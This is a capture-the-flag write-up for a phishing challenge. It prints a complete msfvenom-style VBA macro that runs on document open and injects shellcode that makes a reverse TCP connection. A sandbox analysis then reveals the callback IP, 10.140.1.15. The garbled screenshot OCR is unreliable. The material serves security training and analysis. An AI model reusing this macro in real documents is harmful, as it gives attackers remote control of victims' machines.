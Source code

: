 # The Phish Tank - 3a
> The suspicious IP address sent another email, which contained a Microsoft Word document attachment. The user who attempted to open this document saw the banner warning that the document contained macros and immediately closed the document and reported it to Snowpoint’s security team.

> The Snowpoint team would like your assistance extracting this Microsoft Word document and analyzing the macros it contains. Based on initial analysis, they believe it is an msfvenom created macro that attempts to make reverse TCP connection back to another computer. Since this is an internal network, they are confident the IP address starts with 10.140.

> What IP address does this macro attempt to connect to?

> Flag format: IP Address. Example: 10.140.1.1

## About the Challenge
We need to do reverse engineering on the Docx file to find the IP address (Sorry, I can't provide you the file, because its a malware)

## How to Solve?
As usual, Im doing static analysis first and then I found there is a VBA script like this:

```
#If VBA7 Then
        Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal Bepfnc As Long, ByVal Uedado As Long, ByVal Diyqiili As LongPtr, Nky As Long, ByVal Ivh As Long, Wcuewmiy As Long) As LongPtr
        Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal Vtsvctjoj As Long, ByVal Vqzfnupj As Long, ByVal Pifzmlog As Long, ByVal Qgmpqd As Long) As LongPtr
        Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Wloqmb As LongPtr, ByRef Dbhvuzro As Any, ByVal Ohqje As Long) As LongPtr
#Else
        Private Declare Function CreateThread Lib "kernel32" (ByVal Bepfnc As Long, ByVal Uedado As Long, ByVal Diyqiili As Long, Nky As Long, ByVal Ivh As Long, Wcuewmiy As Long) As Long
        Private Declare Function VirtualAlloc Lib "kernel32" (ByVal Vtsvctjoj As Long, ByVal Vqzfnupj As Long, ByVal Pifzmlog As Long, ByVal Qgmpqd As Long) As Long
        Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Wloqmb As Long, ByRef Dbhvuzro As Any, ByVal Ohqje As Long) As Long
#End If
Sub Auto_Open()
        Dim Hrfoyesjd As Long, Dnbtk As Variant, Jag As Long
#If VBA7 Then
        Dim Omvyup As LongPtr, Glyyeamp As LongPtr
#Else
        Dim Omvyup As Long, Glyyeamp As Long
#End If
Dnbtk = Array(252, 232, 143, 0, 0, 0, 96, 137, 229, 49, 210, 100, 139, 82, 48, 139, 82, 12, 139, 82, 20, 139, 114, 40, 49, 255, 15, 183, 74, 38, 49, 192, 172, 60, 97, 124, 2, 44, 32, 193, 207, 13, 1, 199, 73, 117, 239, 82, 87, 139, 82, 16, 139, 66, 60, 1, 208, 139, 64, 120, 133, 192, 116, 76, 1, 208, 139, 72, 24, 80, 139, 88, 32, 1, 211, 133, 201, 116, 60, 73, 49, _
255, 139, 52, 139, 1, 214, 49, 192, 193, 207, 13, 172, 1, 199, 56, 224, 117, 244, 3, 125, 248, 59, 125, 36, 117, 224, 88, 139, 88, 36, 1, 211, 102, 139, 12, 75, 139, 88, 28, 1, 211, 139, 4, 139, 1, 208, 137, 68, 36, 36, 91, 91, 97, 89, 90, 81, 255, 224, 88, 95, 90, 139, 18, 233, 128, 255, 255, 255, 93, 104, 51, 50, 0, 0, 104, 119, 115, 50, 95, 84, _
104, 76, 119, 38, 7, 137, 232, 255, 208, 184, 144, 1, 0, 0, 41, 196, 84, 80, 104, 41, 128, 107, 0, 255, 213, 106, 10, 104, 10, 140, 1, 15, 104, 2, 0, 106, 218, 137, 230, 80, 80, 80, 80, 64, 80, 64, 80, 104, 234, 15, 223, 224, 255, 213, 151, 106, 16, 86, 87, 104, 153, 165, 116, 97, 255, 213, 133, 192, 116, 10, 255, 78, 8, 117, 236, 232, 103, 0, 0, 0, _
106, 0, 106, 4, 86, 87, 104, 2, 217, 200, 95, 255, 213, 131, 248, 0, 126, 54, 139, 54, 106, 64, 104, 0, 16, 0, 0, 86, 106, 0, 104, 88, 164, 83, 229, 255, 213, 147, 83, 106, 0, 86, 83, 87, 104, 2, 217, 200, 95, 255, 213, 131, 248, 0, 125, 40, 88, 104, 0, 64, 0, 0, 106, 0, 80, 104, 11, 47, 15, 48, 255, 213, 87, 104, 117, 110, 77, 97, 255, 213, _
94, 94, 255, 12, 36, 15, 133, 112, 255, 255, 255, 233, 155, 255, 255, 255, 1, 195, 41, 198, 117, 193, 195, 187, 240, 181, 162, 86, 106, 0, 83, 255, 213))

        Omvyup = VirtualAlloc(0, UBound(Dnbtk), &H1000, &H40)
        For Jag = LBound(Dnbtk) To UBound(Dnbtk)
                Hrfoyesjd = Dnbtk(Jag)
                Glyyeamp = RtlMoveMemory(Omvyup + Jag, Hrfoyesjd, 1)
        Next Jag
        Glyyeamp = CreateThread(0, 0, Omvyup, 0, 0, 0)
End Sub
Sub AutoOpen()
        Auto_Open
End Sub
Sub Workbook_Open()
        Auto_Open
End Sub
```

As you can see the VBA script was obfuscated and don't know how to deobfuscate it. So I decided to find the IP address using dynamic analysis approach. Im using `any.run` website to do dynamic analysis and luckily I got the IP address by checking `Connection` tabs

https://app.any.run/tasks/d82af4a0-af76-44d2-a157-56dc023eb0d7/


[Image extracted text: Activ-bon Droccss
Hos
youwat to actiyzteYour sottware?
Wanc
ct otc
soltwae over the Internet
(recomirended)
Processes
Filter by PID or name
Iwamt
CchyoC
thcsothuic
tckphone.
3324
WINWORD EXE
In "C:IUsersladmin| AppDatalLocall Templdownload docx doch
I You chooserotto activate
this tim , You Max
the softwcre for
more day: befcre the
becomos unkcense
dix Help for more intormation
Enacy Gtatement
Mext
Comcl
MOVE YOUR-MOUSE T0-VIEW-SCREENSHOTS
FY 2022
Anv
RUN
doAlo;
docLCocm: 22 caracters (an approamate value)
Ed E
100e5
Start
2,38 PM
HTTP Requests
Connections
DNS Requests
Threats
Filter by PID; domain; name or ip
1 PCAP
Timeshift
Protocol
Rep
PID
Process name
CN
Port
Domain
ASN
Traff
3264 ms
TCP
3324
WINWORDEXE
10.140.1.15
27354
No
9468 ms
TCP
3324
WINWORD EXE
88.221.62.148
gomicrosoft _
AKAMAI-AS
150b
Waiting for appanyrun_
Get more awesome features with premium acce
prequz:]


```
10.140.1.15
```